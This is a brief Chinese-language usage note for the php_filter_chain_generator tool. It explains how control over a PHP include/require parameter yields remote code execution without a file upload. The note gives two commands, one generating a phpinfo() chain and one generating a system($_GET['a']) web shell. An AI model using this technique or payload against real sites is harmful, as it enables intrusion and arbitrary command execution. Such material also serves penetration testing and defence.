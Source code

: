 ## 描述

当完全控制require或include参数，即可通过php过滤链生成器，实现无需上传文件获取RCE





## github项目地址

[Synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)





## 用法

```
python3 php_filter_chain_generator.py --chain '<?php phpinfo(); ?>'
```

执行的内容为phpinfo()



```
python3 php_filter_chain_generator.py --chain '<?php system($_GET['a']); ?>'
```

system执行GET提交的参数a